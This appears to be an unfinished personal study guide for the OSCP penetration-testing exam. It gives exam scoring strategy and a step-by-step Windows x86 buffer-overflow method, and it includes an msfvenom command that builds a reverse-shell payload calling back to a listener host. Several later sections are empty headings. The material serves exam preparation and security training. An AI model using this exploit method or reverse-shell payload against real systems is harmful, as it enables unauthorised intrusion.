 # OSCP Exam Process

## OpenVPN issues

Issues usually occur if you connect to OSCP network using different devices / network connections i.e. mobile hotspot + home wireless.

Reset all connections with OpenVPN:
```bash
$ sudo killall openvpn
```

## Exam Approach

Overview:
* 1 x 25 points (Buffer Overflow)
* 1 x 10 points (Metasploit box)
* 2 x 20 points
* 1 x 25 points

Approaches - there are a number of ways to get the passing 70 points:
1. Buffer Overflow box
2. Metasploit box
3. Either:
    * 35pts + (1 x root) + (1 x low_priv) + (1 x low_priv)
    * 35pts + (2 x root)
    * After 35pts: You need to get root on a 20pt box
    * After 55pts: You need to get 2 x low_priv shells || 1 x root shells

Tips:
* !! STICK TO PROCESS !!
* Keep notes on steps that you have taken + info gathered so far on machines. It helps you keep track of where you are.
* Enumerate ALL services even if you think you see an attack vector:
    * Build a prioritised list of of attack vectors, spanning all ports then proceed to attack.
* Take 10-15 minute breaks every 3 hours
* Have pre-compiled exploits
* Have pre-formatted exam report (with steps etc.)

If you can't get low-level priv:
* Enumerate more / Google a way to enumerate the service differently.
* Think of what has been enumerated and how you can chain to get shell or sesnsitive info.
* Read the exploit you're sending and see if it needs to be edited.

## Buffer Overflow - Windows x86

Some BO guides:
* https://www.nccgroup.trust/au/about-us/newsroom-and-events/blogs/2016/june/writing-exploits-for-win32-systems-from-scratch/

__Fuzzing -> Determine exact offset -> Control EIP register__

1. Fuzz application to determine rough amount of bytes to cause a crash.
2. Generate offset-discovery string: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700`
3. Run script with-offset discovery string + look at value in EIP
    * EIP is where we want to store address of a JMP ESP instruction
    * Execution flow: EIP -> JMP ESP -> ESP (shellcode location)
3. Calculate offset: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value in EIP]`

Now we know the exact #bytes needed to reach/control the EIP register so that we can overwrite it with JMP ESP address.

__Checking for bad chars__

1. Generate string of bad characters (0x00 -> 0xFF)
2. Use list of bad chars as payload + execute script.
3. Observe crash + goto location in ESP register (right-click -> follow-in-dump)
4. Observe the hex dump and see which character has truncated the rest of the payload that should come after it.
5. Remove character from buffer + repeat steps until all bad chars have been found.

__Find address of a JMP ESP in a DLL__

We need to find a module that contains a `JMP ESP` instruction which we can point to.

1. `!mona modules` to list all the loaded modules for the application.
2. Find a module that has no internal security mechanisms:
   * No memory protection (ASLR: address randomisation / DEP: data execution prevention)
   * Memory range of DLL does not contain bad characters
3. Find a `JMP ESP` or equivalent instruction in the DLL.
   * Click on the Executable Modules `e` icon to show list of all modules/DLLs loaded with the application.
   * Locate the chosen DLL in step #3 and click on the DLL.
   * Right-click on instruction window -> Search For -> Command -> `JMP ESP`
   * If none are found: Search For -> Command Sequence -> `PUSH ESP | RETN` (equivalent command)
   * If none are found: `!Mona find -s "\xFF\xE4" -m slmfc.dll` to find the opcode for `JMP ESP` in the whole slmfc.dll.
4. Once `JMP ESP` has been found, verify that the address does actually contain the instruction
   * Click on "Go to address in disassembler" button then enter in the address.
   * Check that the address has `JMP ESP`

__Generate and use shellcode__

!! MAKE SURE YOU HAVE A LISTENER RUNNING BEFORE YOU EXECUTE THE EXPLOIT !!

1. Generate shellcode, target specific platform (windows x86), encode payload, avoid bad characters
   `$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.42 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`
   In front of the shellcode are instructions to decode the encoded payload.
2. We need to provide the shellcode docoder some stack-space to work with
   * Append NOP instructions to the front of the payload e.g. `"\x90 * 16"`
3. 




## Buffer Overflow - Linux



## Entry Point

__#1 RECON__

* Scan ports
* Scan ALL ports

__#2 __

__Step 3__

__Step 4__




## Windows Privilege Escalation

__Step 1__

__Step 2__

__Step 3__

__Step 4__


## Linux Privilege Escalation

__Step 1__

__Step 2__

__Step 3__

__Step 4__

